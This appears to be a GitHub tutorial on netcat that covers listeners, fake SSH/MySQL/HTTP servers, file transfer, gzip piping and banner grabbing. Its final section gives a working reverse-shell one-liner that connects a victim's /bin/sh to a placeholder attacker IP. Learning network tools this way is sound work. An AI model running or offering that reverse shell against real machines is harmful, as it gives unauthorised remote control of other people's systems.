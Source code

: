 # Exploring the TCP/IP swiss army knife

## Setting up the listener
```bash
netcat -nvlp 8080
# -n -> don't perform DNS resolution
```

## Sending request from different servers using clients for different protocols

**Setting up the listener on 22 port SSH**
```bash
sudo netcat -nvlp 8080
```

**Making connection request from SSH client**
```bash
ssh user@localhost
```

![image](https://github.com/user-attachments/assets/6bb90f6f-ff78-4613-a681-4f4acfa5e050)

### Making mysql connection request

**Setting mysql server**
```bash
sudo netcat -nvlp 3306
```

**Sending the connection request from client**
```bash
mysql -h 127.0.0.1 -u someuser -p
# -h option forces for using TCP requeset instead of unix sockets
```

![image](https://github.com/user-attachments/assets/eb5f0120-dbbd-4367-bce1-6551445dae97)

### Making netcat as HTTP server and manually writing HTTP responses

**Setting up the http server**
```bash
netcat -nvlp 8080
```
**Sending HTTP request using curl**
```bash
curl -v localhost:8080
```
**Manually writing HTTP response**
```
HTTP/1.1 200 OK
Content-Length: 13
type: text/plain

Hello, World!
```

![image](https://github.com/user-attachments/assets/77129986-f170-40fa-91cc-38ec8f0c8db1)

## Setting up the Bidirectional communication using tcp client and server

**Creating server**
```bash
sudo netcat -nvlp 4000
```

**Creating client**
```bash
netcat localhost 4000
```

![image](https://github.com/user-attachments/assets/66cafcaf-f624-424a-9b8d-981333993133)

## File Transfer using netcat

**Listener (sender)**
```bash
nc -nvlp 4000 < file.txt 
```

**Client (Receiver)**
```bash
netcat localhost 4000 > copiedFile.txt
```

![image](https://github.com/user-attachments/assets/6aed78a1-8472-488e-8af3-f781856c783e)


## Illustrating gzip compression

![image](https://github.com/user-attachments/assets/d608b5f2-c353-48dd-81ed-42f1054358b7)

## Sending Data with gzip compressed

**Server**
```bash
nc -l -p 1234 | gunzip
nc -l -p 1234 | xxd # display bytes direclty
```

**Client**
```bash
python3 -c 'print("A"*1000)' | gzip -c | nc -q 0 localhost 1234
```

![image](https://github.com/user-attachments/assets/ad875a7c-3440-493e-be71-fecc44cc0c0b)

![image](https://github.com/user-attachments/assets/d8cd72e7-b054-4d11-85b2-dac4876e7e1c)

## Making a HTTP request
```bash
nc google.com 80
```
```
GET / HTTP/1.1
Host: google.com
User-Agent: Netcat
Accept: */*
```

## Banner Grabbing
- Make connection to the respective ports. The response from the server gives the banner

## Creating Reverse shell

**Attacker machine : Listener**
```bash
nc -nvlp 4444
```

**Victim machine**
```bash
mkfifo /tmp/f; nc <attacker_IP> 4444 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
```
